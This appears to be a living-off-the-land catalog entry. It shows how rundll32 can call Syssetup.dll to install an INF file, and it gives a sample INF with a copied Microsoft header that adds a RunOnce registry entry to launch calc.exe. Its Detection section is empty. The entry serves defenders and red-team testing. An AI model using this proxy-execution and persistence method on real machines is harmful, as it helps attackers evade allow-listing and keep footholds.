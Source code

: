 ## Syssetup.dll

* Functions: Execute

```
rundll32 syssetup,SetupInfObjectInstallAction DefaultInstall 128 c:\temp\calc.INF
```

Acknowledgements:
* Pierre-Alexandre Braeken - @pabraeken

Code sample:
* 

Resources:
* https://twitter.com/pabraeken/status/994392481927258113

Full path:
```
c:\windows\system32\Syssetup.dll
c:\windows\sysWOW64\Syssetup.dll
```

Notes:
calc.inf
```
; DRIVER.INF
; Copyright (c) Microsoft Corporation.  All rights reserved.
 
[Version]
Signature = "$CHICAGO$"
Class=61883
ClassGuid={7EBEFBC0-3200-11d2-B4C2-00A0C9697D17}
Provider=%Msft%
DriverVer=06/21/2006,6.1.7600.16385
 
[DestinationDirs]
DefaultDestDir = 1
 
[DefaultInstall]
AddReg = CalcStart

[CalcStart]
HKLM,Software\\Microsoft\\Windows\\CurrentVersion\\RunOnce,Install,,cmd.exe /c """calc.exe"""
```



Detection:

 

